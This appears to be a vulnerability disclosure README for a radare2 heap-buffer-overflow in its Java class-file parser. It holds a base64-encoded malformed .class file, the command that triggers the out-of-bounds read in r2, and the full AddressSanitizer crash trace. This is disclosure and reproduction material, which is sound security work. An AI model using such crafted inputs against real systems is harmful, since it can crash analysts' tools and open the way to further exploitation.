 # README

## POC URL
https://huntr.dev/bounties/229a2e0d-9e5c-402f-9a24-57fa2eb1aaa7

## Compilation Environment
radare2 5.6.9 27745 @ linux-x86-64 git.conti
commit: 14189710859c27981adb4c2c2aed2863c1859ec5 build: 2022-04-23__11:05:49
./sys/sanitize.sh

## Run Command
echo yv66vgAAADQADQcACwcADAEADnZpcnR1YWxEYWNoaW5lAQAeKAdMY29tL3N1bi9qZGkvVmlydHVhbE1hY2hpbmU7AQAIdG9TdHJpbmcBABQoKUxqYXZhL2xhbmcvU3RyaW5nOwEAClNvdXJjZUZpbGUBAAtNaXJyb3IuamF2YQEADUNvbnN0YW50VmFsdWUBABpDVkVfZm91bmRfYnlfZ2l0aHViL2JldDRpdAEAEmNv7S9zdW4vamRpL01pcnJvAQEAEGphdmEvbGFuZy9PYmplY3QGBQABAAIAAAAAAAIEAQADAAQAAAQBEgUABgAAAAIABwAAAAIACAAJAAAAAA== | base64 -d > constant.class
ASAN_OPTIONS=detect_leaks=0:detect_odr_violation=0 r2 -A constant.class

## Expected Output
ASAN
=================================================================
==608767==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x602000063cf7 at pc 0x7f99a12e1a71 bp 0x7ffee735f9b0 sp 0x7ffee735f9a0
READ of size 1 at 0x602000063cf7 thread T0
    #0 0x7f99a12e1a70 in r_bin_java_constant_value_attr_new /src/radare2/shlr/java/class.c:3562
    #1 0x7f99a12c9919 in r_bin_java_read_next_attr_from_buffer /src/radare2/shlr/java/class.c:2082
    #2 0x7f99a12c91e5 in r_bin_java_read_next_attr /src/radare2/shlr/java/class.c:2043
    #3 0x7f99a12cd16c in r_bin_java_parse_attrs /src/radare2/shlr/java/class.c:2247
    #4 0x7f99a12cf25e in r_bin_java_load_bin /src/radare2/shlr/java/class.c:2373
    #5 0x7f99a12ce9f2 in r_bin_java_new_bin /src/radare2/shlr/java/class.c:2323
    #6 0x7f99a12dbbe8 in r_bin_java_new_buf /src/radare2/shlr/java/class.c:3145
    #7 0x7f999ae0f8d4 in load_buffer /src/radare2/libr/..//libr/bin/p/bin_java.c:81
    #8 0x7f999ac45989 in r_bin_object_new /src/radare2/libr/bin/bobj.c:149
    #9 0x7f999ac3a1c7 in r_bin_file_new_from_buffer /src/radare2/libr/bin/bfile.c:585
    #10 0x7f999abf51ca in r_bin_open_buf /src/radare2/libr/bin/bin.c:281
    #11 0x7f999abf6060 in r_bin_open_io /src/radare2/libr/bin/bin.c:341
    #12 0x7f999d0f2edd in r_core_file_do_load_for_io_plugin /src/radare2/libr/core/cfile.c:436
    #13 0x7f999d0f5c1e in r_core_bin_load /src/radare2/libr/core/cfile.c:637
    #14 0x7f99a60f4c10 in r_main_radare2 /src/radare2/libr/main/radare2.c:1206
    #15 0x56540c2ff81b in main /src/radare2/binr/radare2/radare2.c:96
    #16 0x7f99a54df30f in __libc_start_call_main (/usr/lib/libc.so.6+0x2d30f)
    #17 0x7f99a54df3c0 in __libc_start_main@GLIBC_2.2.5 (/usr/lib/libc.so.6+0x2d3c0)
    #18 0x56540c2ff1a4 in _start (/src/radare2/binr/radare2/radare2+0x21a4)

0x602000063cf7 is located 0 bytes to the right of 7-byte region [0x602000063cf0,0x602000063cf7)
allocated by thread T0 here:
    #0 0x7f99a727afb9 in __interceptor_calloc /usr/src/debug/gcc/libsanitizer/asan/asan_malloc_linux.cpp:154
    #1 0x7f99a12c76a9 in r_bin_java_get_attr_buf /src/radare2/shlr/java/class.c:1963
    #2 0x7f99a12c91a6 in r_bin_java_read_next_attr /src/radare2/shlr/java/class.c:2039
    #3 0x7f99a12cd16c in r_bin_java_parse_attrs /src/radare2/shlr/java/class.c:2247
    #4 0x7f99a12cf25e in r_bin_java_load_bin /src/radare2/shlr/java/class.c:2373
    #5 0x7f99a12ce9f2 in r_bin_java_new_bin /src/radare2/shlr/java/class.c:2323
    #6 0x7f99a12dbbe8 in r_bin_java_new_buf /src/radare2/shlr/java/class.c:3145
    #7 0x7f999ae0f8d4 in load_buffer /src/radare2/libr/..//libr/bin/p/bin_java.c:81
    #8 0x7f999ac45989 in r_bin_object_new /src/radare2/libr/bin/bobj.c:149
    #9 0x7f999ac3a1c7 in r_bin_file_new_from_buffer /src/radare2/libr/bin/bfile.c:585
    #10 0x7f999abf51ca in r_bin_open_buf /src/radare2/libr/bin/bin.c:281
    #11 0x7f999abf6060 in r_bin_open_io /src/radare2/libr/bin/bin.c:341
    #12 0x7f999d0f2edd in r_core_file_do_load_for_io_plugin /src/radare2/libr/core/cfile.c:436
    #13 0x7f999d0f5c1e in r_core_bin_load /src/radare2/libr/core/cfile.c:637
    #14 0x7f99a60f4c10 in r_main_radare2 /src/radare2/libr/main/radare2.c:1206
    #15 0x56540c2ff81b in main /src/radare2/binr/radare2/radare2.c:96
    #16 0x7f99a54df30f in __libc_start_call_main (/usr/lib/libc.so.6+0x2d30f)

SUMMARY: AddressSanitizer: heap-buffer-overflow /src/radare2/shlr/java/class.c:3562 in r_bin_java_constant_value_attr_new
Shadow bytes around the buggy address:
  0x0c0480004740: fa fa fd fa fa fa fd fa fa fa 05 fa fa fa 00 07
  0x0c0480004750: fa fa 05 fa fa fa fd fd fa fa 05 fa fa fa 00 01
  0x0c0480004760: fa fa 05 fa fa fa fd fd fa fa 05 fa fa fa 00 03
  0x0c0480004770: fa fa fd fd fa fa 05 fa fa fa 00 04 fa fa fd fd
  0x0c0480004780: fa fa 05 fa fa fa 00 06 fa fa 05 fa fa fa 05 fa
=>0x0c0480004790: fa fa 05 fa fa fa 05 fa fa fa fd fd fa fa[07]fa
  0x0c04800047a0: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c04800047b0: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c04800047c0: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c04800047d0: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c04800047e0: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
Shadow byte legend (one shadow byte represents 8 application bytes):
  Addressable:           00
  Partially addressable: 01 02 03 04 05 06 07 
  Heap left redzone:       fa
  Freed heap region:       fd
  Stack left redzone:      f1
  Stack mid redzone:       f2
  Stack right redzone:     f3
  Stack after return:      f5
  Stack use after scope:   f8
  Global redzone:          f9
  Global init order:       f6
  Poisoned by user:        f7
  Container overflow:      fc
  Array cookie:            ac
  Intra object redzone:    bb
  ASan internal:           fe
  Left alloca redzone:     ca
  Right alloca redzone:    cb
  Shadow gap:              cc
==608767==ABORTING

